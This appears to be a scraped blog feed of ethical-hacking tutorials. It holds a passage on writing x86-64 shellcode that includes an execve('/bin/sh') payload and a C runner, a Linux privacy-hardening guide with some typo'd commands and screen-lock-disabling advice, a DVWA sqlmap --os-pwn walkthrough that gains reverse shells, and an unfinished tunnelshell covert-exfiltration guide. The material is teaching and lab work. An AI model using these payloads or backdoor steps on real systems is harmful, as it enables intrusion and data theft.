<p>You can also find an online searchable table here:&nbsp;<a href="https://filippo.io/linux-syscall-table/">https://filippo.io/linux-syscall-table/</a></p>


<p>The syscall used to print a message is “write.” It uses these arguments:</p>


<figure class="wp-block-image"></figure>


<p>So, these syscalls essentially also use different registers to process and perform a task. Upon knowing more about what syscall requires in these registers we’d be able to perform any syscall. To perform write, we need these values in these registers:</p>


<p>rax -&gt; 1</p>


<p>rdi -&gt; 1 (stdout in Linux is defined by fd=1)</p>


<p>rsi -&gt; Message to display</p>


<p>rdx -&gt; length of the message (which is 12 including end line)</p>


<p>But how do we input these values in these registers? For this, in Assembly, there are many instructions. The most common instruction is “mov.” This moves values from:</p>


<ul class="wp-block-list">
<li>Between registers</li>


<li>Memory to Registers and Registers to Memory</li>


<li>Immediate data to registers</li>


<li>Immediate data to memory</li>
</ul>


<p>So, we will just move these values into dedicated registers and our code becomes like this:</p>


<figure class="wp-block-image"></figure>


<p>However, manually calculating the length of messages may not be feasible. So, we’ll use a little trick. We’ll define a new variable for length and use “equ” which means equals proceeded by “$” which denotes the current offset and subtract our message’s beginning offset from this to find the length of the message.</p>


<p>We would further need to use the instruction “syscall” to also call the “write” syscall we just defined. Without using the “syscall” operation, write won’t be performed with register values.</p>


<figure class="wp-block-image"></figure>


<p>Finally, we also need to exit from the program. sys_exit syscall in Linux performs this operation.</p>


<figure class="wp-block-image"></figure>


<p>So, rax-&gt; 60</p>


<p>And rdi-&gt; any value we want for the error code. Let’s give this 0 for now.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Assembling and Linking</h3>


<p>Now this code is ready to run. We always need to do these steps to run an assembly code:</p>


<ol class="wp-block-list">
<li>Assemble using nasm</li>


<li>Link with necessary libraries using ld</li>
</ol>


<p>An assembler produces object files as output. We then link it with necessary libraries that contain the definition of certain instructions and create an executable. We will use “<a href="https://www.nasm.us/">nasm</a>” to do the assembling and “<a href="https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_mono/ld.html">ld</a>” to link.</p>


<p>Since it is a 64-bit elf that we want, the command would become:</p>


<p>nasm -f elf64 1.asm -o 1.o</p>


<p>ld 1.o -o 1</p>


<p>./1</p>


<figure class="wp-block-image"></figure>


<p>As we see, we have now generated an executable file that is printing “hello world.” Perfect. We can now proceed to create our shellcode using this binary.</p>


<h3 class="wp-block-heading">Extracting shellcode</h3>


<p>We created our assembly code and made an executable out of it that prints something. Let’s say a poor exploit (not a good one, haha) wants to exploit something with the payload to print “Hello World”. How would one do this?</p>


<p>For this, we need to extract the instruction bytes from our executable. We can use objdump to do this</p>


<p>Upon seeing the binary with objdump, we can see our assembly code and the instructions in hex written alongside it. We are providing -M intel because we want the output in Intel assembly format.</p>


<p>objdump -d 1 -M intel</p>


<figure class="wp-block-image"></figure>


<p>We all know computers only know binary. However, displaying binary on screen is not feasible. So, computer scientists used hex instructions. This gets translated into the CPU and the computer acts.</p>


<h3 class="wp-block-heading">Removing NULLs</h3>


<p>We need to extract these bytes and use them in our C code! Simple? BUT WAIT!</p>


<p>Another fundamental we know is that null bytes can sometimes terminate an action. So we must remove these null bytes from our shellcode to prevent any mishappening. To exactly know which instructions won’t generate null bytes comes with practice. But certain tricks can be used in simple programs to achieve this.</p>


<p>For example, using “xor rax,rax” would assign rax=0 since xoring anything with itself gives 0.</p>


<figure class="wp-block-image"></figure>


<p>So, we can do “xor rax,rax” and then “add rax,1” to make RAX as 1.</p>


<p>In our code, you’ll observe every mov instruction creates 0s. So, if we have to assign a value of “1”, we can xor to make it 0 and then “add” 1. “Add” instruction simply adds the value given to the register mentioned.</p>


<p>Following this trick we can re-write our code like this:</p>


<figure class="wp-block-image"></figure>


<p>Let’s see if we still have 0s or not.</p>


<figure class="wp-block-image"></figure>


<p>We can still observe some 0s in movabs and mov instructions. We can use some tricks to reduce these 0s further.</p>


<figure class="wp-block-image"></figure>


<p>This would still produce 0s near mov rsi, message. We can reduce this by using “lea.” “lea” command loads an address into the memory. This is also known as the “memory referencing.” We’ll see the details in a future article on rel and memory referencing.</p>


<figure class="wp-block-image"></figure>


<p>We can still see 2 null bytes there but for now, this is workable. We can use the “jmp call pop” technique to remove this as well. Let’s talk about that in further articles.</p>


<figure class="wp-block-image"></figure>


<p>This binary also works. Let’s extract these bytes and make it a shellcode. We can copy these manually too (tiring!) but let’s use a command line fu for this:</p>


<p>objdump -d ./PROGRAM | grep -Po &#8216;\s\K[a-f0-9]{2}(?=\s)&#8217; | sed &#8216;s/^/\\x/g&#8217; | perl -pe &#8216;s/\r?\n//&#8217; | sed &#8216;s/$/\n/&#8217;</p>


<figure class="wp-block-image"></figure>


<p>Shellcode:</p>


<p>\x48\x31\xc0\x48\x83\xc0\x01\x48\x31\xff\x48\x83\xc7\x01\x48\x8d\x35\xeb\x0f\x00\x00\x48\x31\xd2\x48\x83\xc2\x0c\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05</p>


<h3 class="wp-block-heading">Sample shellcode execution</h3>


<p>The shellcode we just created can not be executed in C programs because “Hello World” was being fetched as static data. For this, we will utilize another technique called JMP, CALL, and POP. This we will cover in the next article. For this part, let’s focus on executing a ready-made shellcode.</p>


<p>On sites like shell-storm.org, you would observe that the assembly of a program is given, and then the related shellcode as well. For example,&nbsp;<a href="https://shell-storm.org/shellcode/files/shellcode-806.html">here</a>&nbsp;we see that an assembly program is written to execute “execve(/bin/sh)” which spawns up a new shell using the Linux system call “execve”</p>


<figure class="wp-block-image"></figure>


<p>The shellcode observed is: \x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05</p>


<p>To execute this shellcode, we need to write a small C program. Here is a skeleton:</p>


<p>#include &lt;stdio.h&gt;</p>


<p>#include &lt;string.h&gt;</p>


<p>char code[] = &#8220;&lt;shellcode&gt;&#8221;;</p>


<p>int main()</p>


<p>{</p>


<p>printf(&#8220;len:%zu bytes\n&#8221;, strlen(code));</p>


<p>(*(<strong>void</strong>(*)()) code)();</p>


<p><strong>return</strong> 0;</p>


<p>}</p>


<p>So, the code becomes like so and we have to compile it with no modern compiler protections command. Also, note that we are using Ubuntu 14 to test our shellcode since even after no protections, modern systems may still block the execution of such shellcodes (due to memory permissions or ASLR issues) which we will tackle in future articles.</p>


<figure class="wp-block-image"></figure>


<p>Now, we can run this binary and observe how it spawns a new shell!</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>OSINT : User Privacy in Linux</title>
		<link>../../../2024/12/10/osint-user-privacy-in-linux/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Tue, 10 Dec 2024 17:21:29 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8978</guid>

					<description><![CDATA[Linux telemetry involves gathering and sending data from a Linux-based system to an external server or service. The purpose of this process is often to monitor system performance, provide diagnostics,....]]></description>
										<content:encoded><![CDATA[
<p>Linux telemetry involves gathering and sending data from a Linux-based system to an external server or service. The purpose of this process is often to monitor system performance, provide diagnostics, enable analytics, or improve system functionality. The collected data may encompass system performance indicators, usage patterns, hardware specifications, error logs, and other relevant information. In this article, we are going to discuss why telemetry can be seen as a potential threat to privacy, even when used for legitimate purposes. Also, we will discuss the methods to make the system more secure than before.</p>


<h3 class="wp-block-heading">Table of Contents</h3>


<ul class="wp-block-list">
<li>Secure OS Installation</li>


<li>Removing the packages</li>


<li>Settings in ubuntu</li>


<li>Disable diagnostics reporting</li>


<li>Disable lock screen notifications</li>


<li>Disable tracking of recent files</li>


<li>Turning off the problem reporting</li>


<li>Turning off the screen blank</li>


<li>Disable automatic screen locking</li>


<li>Permanently delete option</li>


<li>Show hidden files</li>


<li>BleachBit</li>


<li>KeePassXC</li>


<li>Virus Scanner</li>


<li>Metadata removal</li>


<li>Firefox profilemaker</li>


<li>Flatpak</li>


<li>LibreWolf VeraCrypt</li>


<li>Tor Browser</li>


<li>Proton VPN</li>


<li>NextDNS</li>


<li>Conclusion</li>
</ul>


<h3 class="wp-block-heading">Secure OS Installation</h3>


<p>Ideally we should consider the&nbsp;<strong>POP!_OS</strong>&nbsp;by&nbsp;<strong>System76</strong>&nbsp;for installation, it is based on Ubuntu but redesigned for privacy and security. However, here we are considering the&nbsp;<strong>Ubuntu 22.04.4</strong>&nbsp;version. We are considering this version of Ubuntu because the versions which begin with an&nbsp;<strong>odd number</strong>&nbsp;or end with the&nbsp;<strong>0.10&nbsp;</strong>are&nbsp;<strong>interim</strong>&nbsp;releases with a short support cycle and we will be needing a version which has the Long Term Support (<strong>LTS</strong>). Hence only versions which begin with an&nbsp;<strong>even number</strong>&nbsp;and end with&nbsp;<strong>0.04</strong>&nbsp;should be considered. We will discuss the steps to make it secure from the installation itself.</p>


<p>Step 1: Download the ubuntu-22.04.4-desktop-amd64.iso image from the following URL:&nbsp;<a href="https://old-releases.ubuntu.com/releases/22.04/">https://old-releases.ubuntu.com/releases/22.04/</a></p>


<figure class="wp-block-image"></figure>


<p>Step 2: Create a new virtual machine in VMware workstation PRO.</p>


<figure class="wp-block-image"></figure>


<p>Step 3: Select the path of the installer disc.</p>


<figure class="wp-block-image"></figure>


<p>Step 4: Enter the Full name, User name, Password and Confirm.</p>


<figure class="wp-block-image"></figure>


<p>Step 5: Select the Normal installation and select both options in the Other options.</p>


<figure class="wp-block-image"></figure>


<p>Step 6: Select Erase disk and install Ubuntu, click on Advanced features.</p>


<figure class="wp-block-image"></figure>


<p>Step 7: Inside Advanced features, use the following options: Use LVM with the new Ubuntu installation and Encrypt the new Ubuntu installation for Security.</p>


<figure class="wp-block-image"></figure>


<p>Step 8: Enter the Security key and click on Install now.</p>


<figure class="wp-block-image"></figure>


<p>Step 9: Select Continue for the Write the changes to disks? Option.</p>


<figure class="wp-block-image"></figure>


<p>Step 10: Enter the details in the Who are you? Installation option.</p>


<figure class="wp-block-image"></figure>


<p>Once the installation is complete, you will see an ubuntu login screen like the one shown below.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Removing the packages</h3>


<p>After login into the ubuntu machine, we can remove all those packages, which some how transfer the user/system information to an outside source either for improvement, feedback, or diagnostic purpose.</p>


<p>Starting with the&nbsp;<strong>whoopsie</strong>&nbsp;package, it is a crash reporting daemon designed to capture application crashes and send anonymized reports to the Ubuntu servers.</p>


<p>The command to remove its entire content is:</p>


<p>sudo apt purge apport apport-symptoms popularity-contest ubuntu-report whoopsie</p>


<figure class="wp-block-image"></figure>


<p>We will also remove the&nbsp;<strong>motd-news</strong>&nbsp;package, it is responsible for delivering dynamic news messages as part of the&nbsp;<strong>Message of the Day</strong>&nbsp;(MOTD) system.</p>


<p>The command to remove its entire content is:</p>


<p>sudo rm /etc/update-motd.d/50-motd-news</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Settings in ubuntu</h3>


<p>After removing the packages, we can now proceed with the essential settings in ubuntu, which can help us to be more secure. Here we are going to show it using the terminal and how the same can be done on the GUI.</p>


<h3 class="wp-block-heading">Disable diagnostics reporting</h3>


<p>Apport is a crash reporting tool found in Ubuntu and other Linux-based operating systems. Its primary function is to identify when programs crash, gather detailed information about the error, and create reports that assist in diagnosing and troubleshooting the problem.</p>


<p>Setting the app crash report to false does not gives the apport crash pop-up notifications.</p>


<p>gsettings set com.ubuntu.update-notifier show-apport-crashes <strong>false</strong></p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Disable lock screen notifications</h3>


<p>Lock screen notifications can disclose various things which might be private to the user. So, we need to disable the lock screen notifications.</p>


<p>gsettings set org.gnome.desktop.notifications show-<strong>in</strong>-lock-screen <strong>false</strong></p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Disable tracking of recent files</h3>


<p>To disable the tracking of recently opened files in the ubuntu machine, we can set the&nbsp;<strong>remember-recent-files&nbsp;</strong>to&nbsp;<strong>false.</strong></p>


<p>gsettings set org.gnome.desktop.privacy remember-recent-files <strong>false</strong></p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Turning off the problem reporting</h3>


<p>Open the Privacy setting in the GUI and inside Diagnostics set the&nbsp;<strong>Send error reports to Canonical</strong>&nbsp;to&nbsp;<strong>Never</strong>. By doing this no error reports will be shared to the Canonical and a privacy can be maintained.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Turning off the screen blank</h3>


<p>To disable the automatic&nbsp;<strong>screen blanking</strong>&nbsp;or&nbsp;<strong>locking</strong>&nbsp;due to inactivity, we can set the&nbsp;<strong>Screen Blank</strong>&nbsp;option to&nbsp;<strong>Never</strong>&nbsp;and&nbsp;<strong>Automatic Suspend</strong>&nbsp;to&nbsp;<strong>Off</strong>&nbsp;inside the&nbsp;<strong>Power</strong>&nbsp;options. Due to this option, the display will remain indefinitely on as the inactivity action would never be triggered.</p>


<p>gsettings set org.gnome.desktop.session idle-delay 0</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Disable automatic screen locking</h3>


<p>To disable the automatic lock when the system remains idle, click the&nbsp;<strong>Privacy</strong>&nbsp;option, then click&nbsp;<strong>Screen</strong>&nbsp;and disable all options.</p>


<p>gsettings set org.gnome.desktop.screensaver lock-enabled <strong>false</strong></p>


<p>gsettings set org.gnome.desktop.screensaver ubuntu-lock-on-suspend <strong>false</strong></p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Permanently delete option</h3>


<p>If we want to permanently delete an object without moving it to the trash, we can run the following command to get a permanently delete option for every file.</p>


<p>gsettings set org.gnome.nautilus.preferences show-delete-permanently <strong>true</strong></p>


<figure class="wp-block-image"></figure>


<p>After running the above command, we can now see that we have&nbsp;<strong>Delete permanently&nbsp;</strong>option available for all the files.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Show hidden files</h3>


<p>To permanently enable the view hidden files option, we can run the following command:</p>


<p>gsettings set org.gnome.nautilus.preferences show-hidden-files <strong>true</strong></p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">BleachBit</h3>


<p><strong>BleachBit</strong>&nbsp;is an open-source application that functions as a system cleaner and privacy tool. It aims to optimize disk space and safeguard user privacy by eliminating unwanted files and data from your computer.</p>


<p>Installation of BleachBit can be performed using the following command:</p>


<p>sudo apt install bleachbit</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">KeePassXC</h3>


<p>KeePassXC is an open-source tool, which is used for password management. It helps users to securely store and manage their passwords and sensitive information.</p>


<p>Installation of KeePassXC can be performed using the following command:</p>


<p>sudo apt install keepassxc</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Virus Scanner</h3>


<p>Here we will be installing the&nbsp;<strong>ClamAV</strong>, it is an open-source antivirus which is used for scanning the malware and malicious files. The GUI of the&nbsp;<strong>ClamAV</strong>&nbsp;is call as the&nbsp;<strong>ClamTK</strong>&nbsp;and to fetch the latest malware detection updates, we need to enable the freshclam.</p>


<p>apt install clamav clamav-daemon</p>


<p>apt install clamtk</p>


<p>sudo systemctl stop clamav-freshclam</p>


<p>sudo systemctl enable clamav-freshclam &#8211;now</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Metadata removal</h3>


<p>There are cases while transferring the files sometimes metadata containing private information is also transferred along with the file. To remove the metadata from the file we are going to use the&nbsp;<strong>MAT2</strong>&nbsp;tool (Metadata Anonymisation Toolkit 2).</p>


<p>To install the MAT2 tool, we can use the following commands:</p>


<p>sudo apt install mat2</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Firefox profilemaker</h3>


<p>To download a customized browser setup as per the requirement, we can use the firefox profilemaker. It provides us a variety of configurations, which we can set and then download the profile file or preference file which can be imported into the browser. This helps in ensuring the full customization as per the user’s need.</p>


<p>The profile setup can be performed using the following URL:</p>


<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://ffprofile.com
</div></figure>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Flatpak</h3>


<p>Flatpak is a tool which is used to install and run the applications within a sandboxed environment. Applications installed via&nbsp;<strong>Flatpak</strong>&nbsp;are sandboxed, meaning they run in an isolated environment. This prevents apps from interfering with the system or accessing unauthorized resources, increasing security.</p>


<p>Following are the commands to install the flatpak:</p>


<p>sudo apt install flatpak</p>


<p>sudo apt install gnome-software-plugin-flatpak</p>


<p>flatpack remote-add &#8212;<strong>if</strong>-not-exists flathub https://dl.flathub.org/report/flathub.flatpakrepo</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">LibreWolf</h3>


<p><strong>LibreWolf</strong>&nbsp;is a web browser focused on privacy, it comes with improved security settings by default. It eliminates telemetry, data collection, and tracking features found in standard&nbsp;<strong>Firefox</strong>, offering a more private browsing experience.</p>


<p>To run the lLibreWolf using the flatpack we can use the following command:</p>


<p>flatpack run io.gitlab.librewolf-community</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">VeraCrypt</h3>


<p>To create a virtual encrypted disk or encrypt the entire partition or storage devices, we can use VeraCrypt. To perform its installation, we need to add the&nbsp;<strong>unit193/encryption&nbsp;</strong>repository in the&nbsp;<strong>PPA (Personal Package Archive)&nbsp;</strong>and then update the system and install VeraCrypt.</p>


<p>sudo add-apt-repository ppa:unit193/encryption -y</p>


<p>sudo apt update</p>


<p>sudo apt install veracrypt</p>


<figure class="wp-block-image"></figure>


<p>After installation we can launch the VeraCrypt.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Tor Browser</h3>


<p>To maintain complete anonymity, Tor browser is an amazing browser to search for things. It directs the traffic through the Tor network making it difficult to track.</p>


<p>It can be downloaded from the following webite:</p>


<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://www.torproject.org/download
</div></figure>


<figure class="wp-block-image"></figure>


<p>After downloading, the file can be extracted, and the browser can be started. By using –register-app flag, the Tor browser can be launched from the applications menu.</p>


<p>./start-tor-browser.desktop &#8211;register-app</p>


<figure class="wp-block-image"></figure>


<p>After successful installation, the browser can be launched from the applications menu.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Proton VPN</h3>


<p>Proton VPN is a widely used VPN which gives 3 locations as a free service. It helps to remain anonymous and perform the tasks. It can be downloaded from the following link:&nbsp;<a href="https://protonvpn.com/support/official-linux-vpn-debian/">https://protonvpn.com/support/official-linux-vpn-debian/</a>&nbsp;</p>


<p>Following are the steps to install the Proton VPN:</p>


<p>sudo wget https://repo.protonvpn.com/debian/dists/stable/main/binary-all/protonvpn-stable-release_1.0.4_all.deb</p>


<figure class="wp-block-image"></figure>


<p>sudo dpkg -i ./protonvpn-stable-release_1.0.4_all.deb &amp;&amp; sudo apt update</p>


<figure class="wp-block-image"></figure>


<p>echo &#8220;62a9d849835de8a5664cf95329458bf1966780b15cec420bf707b5f7278b9027 protonvpn-stable-release_1.0.4_all.deb&#8221; | sha256sum &#8211;check &#8211;</p>


<figure class="wp-block-image"></figure>


<p>sudo apt update &amp;&amp; sudo apt upgrade</p>


<p>sudo apt install proton-vpn-gnome-desktop</p>


<figure class="wp-block-image"></figure>


<p>After the installation is complete, we can launch the Proton VPN.</p>


<figure class="wp-block-image"></figure>


<p>After connecting with the Netherlands location, we can check the public IP.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">NextDNS</h3>


<p>NextDNS is a cloud-based DNS solution which helps to perform content filtering and many more things. It serves as an alternative to the DNS provided by the ISP. There are times when we want to block access to certain websites in our system and want to check what were the websites visited by the user.</p>


<p>The profile can be setup using the DNS address given at the following link:</p>


<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://my.nextdns.io/2f7664/setup
</div></figure>


<figure class="wp-block-image"></figure>


<p>After copying the systemd-resolved addresses, we can add this in the /etc/systemd/resolved.conf file.</p>


<p>sudo nano /etc/systemd/resolved.conf</p>


<p>cat /etc/systemd/resolved.conf</p>


<figure class="wp-block-image"></figure>


<p>After the addresses are added in the configuration file. Inside the browser, navigate to the Settings and select the option to choose the&nbsp;<strong>DNS over HTTPS</strong>&nbsp;and it should be set to Max Protection. Inside Max Protection select the custom DNS and enter the NextDNS URL shown in the DNS over HTTPS.</p>


<figure class="wp-block-image"></figure>


<p>After the configuration is complete, the NextDNS setup will show a&nbsp;<strong>All good!</strong>&nbsp;status.</p>


<figure class="wp-block-image"></figure>


<p>We can also restrict websites from visiting by adding them in the&nbsp;<strong>Parental Control</strong>&nbsp;list.</p>


<figure class="wp-block-image"></figure>


<p>The user is no longer able to visit the website.</p>


<figure class="wp-block-image"></figure>


<p>There is also a feature to check the logs, which can help in tracking the websites visited before in the&nbsp;<strong>Logs</strong>&nbsp;option.</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Exploiting the Webserver using Sqlmap and Metasploit (OS-Pwn)</title>
		<link>../../../2024/12/10/exploiting-the-webserver-using-sqlmap-and-metasploit-os-pwn/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Tue, 10 Dec 2024 16:31:33 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8957</guid>

					<description><![CDATA[This guide is about how to use sqlmap for SQL injection to hack victim pc and gain shell access. Here I had performed SQL attack to gain three different types....]]></description>
										<content:encoded><![CDATA[
<p>This guide is about how to use sqlmap for SQL injection to hack victim pc and gain shell access. Here I had performed SQL attack to gain three different types of the shell (meterpreter; command shell; VNC )</p>


<h3 class="wp-block-heading"><strong>Requirement:</strong></h3>


<ul class="wp-block-list">
<li><strong>Xampp/Wamp Server                                                                                                           </strong></li>


<li><strong>DVWA Lab</strong></li>


<li><strong>Kali Linux: Burp suite, sqlmap tool </strong></li>
</ul>


<p>Very first you need to install DVWA lab in your XAMPP or WAMP server, read full article from<strong>&nbsp;</strong><a href="https://www.hackingarticles.in/web-application-lab-setup-on-windows/"><strong>here</strong></a></p>


<p>Now open the DVWA in your pc and login with following credentials:</p>


<p><strong>Username</strong>&nbsp;– admin</p>


<p><strong>Password</strong>&nbsp;– password</p>


<p>Click on&nbsp;<strong>DVWA Security</strong>&nbsp;and set Website&nbsp;<strong>Security Level low</strong></p>


<p>From the list of vulnerabilities select&nbsp;<strong>SQL Injection</strong>&nbsp;for your attack. Type&nbsp;<strong>user ID: 1</strong>&nbsp;in text box.&nbsp; Don’t click on submit button without setting browser proxy. Set your browser proxy to make burp suite work properly.</p>


<figure class="wp-block-image"></figure>


<p>Turn on burp suite click on&nbsp;<strong>the proxy&nbsp;</strong>in the menu bar and go&nbsp;<strong>for intercept is on the button</strong>. Come back and click on&nbsp;<strong>submit</strong>&nbsp;button in dvwa. Burp suit will provide” cookie” and “referrer” under fetched data which will be used later in sqlmap commands.</p>


<figure class="wp-block-image"></figure>


<p>Let’s enumerate all databases name using “referrer and cookies” under sqlmap command.</p>


<pre class="wp-block-preformatted">sqlmap -u "http://192.168.1.79:81/dvwa/vulnerabilities/sqli/?id=1&amp;submit=submit" --cookie="security=low; PHPSESSID=jgs556oh1j1n8pc1ea0ovmeed47" --dbs
</pre>


<figure class="wp-block-image"></figure>


<p>It has dumped all names of the database. Now I am going to choose dvwa to access its back-end database management system.</p>


<figure class="wp-block-image"></figure>


<p>Now type the following command to access shell of the web server and follow the screenshot.</p>


<pre class="wp-block-preformatted">sqlmap -u "http://192.168.1.79:81/dvwa/vulnerabilities/sqli/?id=1&amp;submit=submit" --cookie="security=low; PHPSESSID=jgs556oh1j1n8pc1ea0ovmeed47" -D dvwa --os-pwn
</pre>


<figure class="wp-block-image"></figure>


<p>Type<strong>&nbsp;1</strong>&nbsp;for&nbsp;<strong>Metasploit framework</strong>&nbsp;to establish a reverse connection then<strong>&nbsp;</strong><strong>type</strong><strong>&nbsp;4</strong>&nbsp;for&nbsp;<strong>php</strong>&nbsp;payload for supporting server and again&nbsp;<strong>type</strong><strong>&nbsp;1&nbsp;</strong>for&nbsp;<strong>the common location</strong>&nbsp;<strong>for the writable directory</strong>&nbsp;to upload payload as a backdoor in victim PC.</p>


<figure class="wp-block-image"></figure>


<p>Here Type<strong>&nbsp;1&nbsp;</strong>for&nbsp;<strong>reverse tcp&nbsp;</strong>connection as the default option. Now I will choose these entire three payloads one by one and try to hack web server every time. Now type<strong>&nbsp;1</strong>&nbsp;for meterpreter.</p>


<figure class="wp-block-image"></figure>


<p>It will load the Metasploit framework and provides meterpreter session 1.</p>


<figure class="wp-block-image"></figure>


<p>Repeat the whole process till&nbsp;<strong>reverse tcp connection</strong>&nbsp;when further it asks to choose payload, then&nbsp;<strong>type 2</strong>&nbsp;for&nbsp;<strong>the shell.</strong></p>


<figure class="wp-block-image"></figure>


<p>Again it will load the Metasploit framework and provides command shell session 1.</p>


<figure class="wp-block-image"></figure>


<p>Repeat the whole process till&nbsp;<strong>reverse tcp connection</strong>&nbsp;when further it asks to choose payload, this time now&nbsp;<strong>type 3</strong>&nbsp;for&nbsp;<strong>VNC.</strong></p>


<figure class="wp-block-image"></figure>


<p>Again it will load the Metasploit framework and launching viewer.</p>


<figure class="wp-block-image"></figure>


<p>Here you can see from the given screenshot that I had access victim pc through TightVNC and now victims each moment will be kept under my observation. Hence we have hacked victim pc three times with various type shell.</p>


<figure class="wp-block-image"></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Covert Channel: The Hidden Network</title>
		<link>../../../2024/12/10/covert-channel-the-hidden-network/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Tue, 10 Dec 2024 16:23:49 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=8940</guid>

					<description><![CDATA[Generally, the hacker uses a hidden network to escape themselves from firewall and IDS such. In this post, you will learn how to steal information from the target machine through....]]></description>
										<content:encoded><![CDATA[
<p>Generally, the hacker uses a hidden network to escape themselves from firewall and IDS such. In this post, you will learn how to steal information from the target machine through the undetectable network. Such type of network is known as a covert channel which seems as generic traffic to any network monitor device/application and network admin. It could be considered as steganography, but it is not exactly steganography. Two endpoint users can use the covert channel for undetectable communication from network admin.</p>


<p>The red teamers use covert channels for data exfiltration in red teaming operations through a legitimate network and the data exfiltration is a process of secretly sharing data between two endpoints.</p>


<h3 class="wp-block-heading"><strong>Table of Content</strong></h3>


<p>What is Covert channel</p>


<ul class="wp-block-list">
<li>Type of covert channel</li>
</ul>


<p>Covert channel attack using tunnelshell</p>


<ul class="wp-block-list">
<li>What is Tunnelshell</li>


<li>Covert ICMP Channel</li>


<li>Covert HTTP Channel</li>


<li>Covert DNS Channel</li>
</ul>


<h3 class="wp-block-heading"><strong>What is the covert channel?</strong></h3>


<p>The word covert means “hidden or undetectable” and Channel is “communication mode”, hence a covert channel denotes an undetectable network of communication. This makes the transmission virtually undetectable by administrators or users through a secret channel. It’s very essential to know the difference between encrypted communication and covert communication. In covert communication, the data stream is garbled and lasting by an unauthorized party. However, encrypted communications do not hide the fact that there has been a communication by encrypted the data travelling between both endpoints.</p>


<p><strong>Type of covert channel</strong></p>


<p><strong>Storage covert Channel:</strong>&nbsp;Communicate by modifying a “storage location”, that would allow the direct or indirect writing of a storage location by one process and the direct or indirect reading of it by another.</p>


<p><strong>Timing Covert channels</strong>&nbsp;– Perform operations that affect the “real response time observed” by the receiver.</p>


<p><em>Note: The well – known Spectre and Meltdown use a system’s page cache as their covert channel for exfiltrating data.</em></p>


<p><em>The specter and Meltdown attacks work by tricking your computer into caching privileged memory and through miscalculated speculative execution, a lack of privilege checking in out-of-order execution, and the power of the page cache. Once privileged memory is accessed the processor caches the information and the processor is able to retrieve it from the cache, regardless of whether its privileged information or not.</em></p>


<h3 class="wp-block-heading"><strong>Covert Channel Attack Using Tunnelshell</strong></h3>


<p>It is possible to use almost any protocol to make a covert channel. The huge majority of covert channel research has based on layer 3 (Network) and layer 4 (Transport) protocols such as &nbsp;ICMP, IP and TCP. Layer 7 (Application) protocols such as HTTP and DNS are also frequently used. This mechanism for conveying the information without alerting network firewalls and IDSs and moreover undetectable by netstat.</p>


<h3 class="wp-block-heading"><strong>What is tunnelshell?</strong></h3>


<p>Tunnelshell is a program written in C for Linux users that works with a client-server paradigm. The server opens a /bin/sh that clients can access through a virtual tunnel. It works over multiple protocols, including TCP, UDP, ICMP, and RawIP, will work. Moreover, packets can be fragmented to evade firewalls and IDS.</p>


<p>Let’s go with practical for more details.</p>


<p><strong>Requirement</strong></p>


<ul class="wp-block-list">
<li>Server (Kali Linux)</li>


<li>Client (Ubuntu18.04)</li>


<li>Tool for Covert Channel (Tunnelshell) which you can download from <strong><a href="https://packetstormsecurity.com/files/32231/tunnelshell_2.3.tgz.html">here</a></strong>.</li>
</ul>


<p>Here, I’m assuming we already have a victim’s machine session through the c2 server. Now we need to create a hidden communication channel for data exfiltration, therefore, install tunnelshell on both endpoints.</p>


<p>Once you download it, then extract the file and compile it as shown below:</p>


<pre class="wp-block-preformatted">tar xvfz tunnelshell_2.3.tgz
make</pre>


<figure class="wp-block-image"></figure>


<p>Similarly, repeat the same at the other endpoint (victim’s machine) and after completion, execute the following command in the terminal to open communication channel for the server (Attacker).</p>


